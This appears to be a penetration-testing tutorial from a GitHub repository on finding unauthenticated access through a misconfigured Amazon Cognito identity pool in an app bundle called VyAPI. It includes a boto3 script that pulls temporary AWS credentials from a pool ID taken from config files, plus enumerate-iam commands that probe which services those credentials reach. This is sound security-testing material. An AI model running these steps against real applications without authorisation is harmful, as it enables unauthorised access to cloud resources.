




# Amazon Cognito Authorization Issue

- [Amazon Cognito Authorization Issue](#amazon-cognito-authorization-issue)
  - [1. Setup AWS CLI](#1-setup-aws-cli)
  - [2. Create Test Scripts](#2-create-test-scripts)
    - [Boto3: Get Pool Credentials](#boto3-get-pool-credentials)
    - [Enumerate IAM](#enumerate-iam)
  - [3. Find a Cognito Identity Pool ID](#3-find-a-cognito-identity-pool-id)
  - [4. Fetch Temporary AWS Credentials](#4-fetch-temporary-aws-credentials)
  - [5. Test for Unauthenticated Access to Sensitive AWS Services](#5-test-for-unauthenticated-access-to-sensitive-aws-services)
  - [References](#references)

## 1. Setup AWS CLI

1. Install AWS CLI
2. Configure AWS CLI

        $ aws configure

## 2. Create Test Scripts

### Boto3: Get Pool Credentials

1. Create a virtual environment for **Python 2.7**

        $ virtualenv -p /usr/bin/python2.7 venv

2. Activate the virtual environment

        $ source venv/bin/activate

3. Install **Boto3** package

        (venv) $ pip install boto3

4. Create a file `get_pool_credentials.py` with following content

    ```python
    import boto3
    import sys

    def get_pool_credentials(region, identity_pool):
        client = boto3.client('cognito-identity', region_name=region)

        _id = client.get_id(IdentityPoolId=identity_pool)
        _id = _id['IdentityId']

        credentials = client.get_credentials_for_identity(IdentityId=_id)
        access_key = credentials['Credentials']['AccessKeyId']
        secret_key = credentials['Credentials']['SecretKey']
        session_token = credentials['Credentials']['SessionToken']
        identity_id = credentials['IdentityId']

        print ("Access Key: " + access_key + "\n")
        print ("Secret Key: " + secret_key + "\n") 
        print ("Session Token: " + session_token + "\n")
        print ("Identity ID: " + identity_id + "\n")

    get_pool_credentials(sys.argv[1], sys.argv[2]);
    ```

### Enumerate IAM

1. Clone the `enumerate-iam` GitHub repository and setup the test environment

    ```bash
    (venv) $ git clone git@github.com:andresriancho/enumerate-iam.git
    (venv) $ cd enumerate-iam/
    (venv) $ pip install -r requirements.txt
    ```

2. Test if the script works fine

        (venv) $ python enumerate-iam.py

    

## 3. Find a Cognito Identity Pool ID

1. In the unzipped VyAPI bundle, look for configuration files

        $ find ./ -name "*config*"

    

2. Check the contents of `awsconfiguration.json` file
3. Copy the value of `PoolId` parameter from the configuration file. 
   
    *Note:* We are looking for a string which is similar to
   
        us-east-1:f0e6168e-4865-4890-97e5-489cd6106g83

## 4. Fetch Temporary AWS Credentials

Use **Boto3** python script to fetch the temporary AWS credentials

    (venv) $ python get_pool_credentials.py "<REGION_ID>" "<COGNITO_IDENTITY_POOL_ID>"



## 5. Test for Unauthenticated Access to Sensitive AWS Services

1. Execute the `enumerate-iam.py` python script 

    ```bash
    (venv) $ cd enumerate-iam
    (venv) $ python enumerate-iam.py --access-key "<ACCESS_KEY>" --secret-key "<SECRET_KEY>" --session-token "<SESSION_TOKEN>" --region "<REGION_ID>"
    ```

2. Check if any of the listed AWS services are sensitive

    

3. All of the listed AWS services can be accessed by unauthenticated users. If a sensitive AWS service is listed, then this should be reported as a security issue.


## References

* [https://docs.python-guide.org/dev/virtualenvs/](https://docs.python-guide.org/dev/virtualenvs/)
* [Internet-Scale analysis of AWS Cognito Security](https://andresriancho.com/internet-scale-analysis-of-aws-cognito-security/)
* [https://boto3.amazonaws.com/v1/documentation/api/latest/reference/services/cognito-identity.html](https://boto3.amazonaws.com/v1/documentation/api/latest/reference/services/cognito-identity.html)
* [https://aws.amazon.com/cognito/](https://aws.amazon.com/cognito/)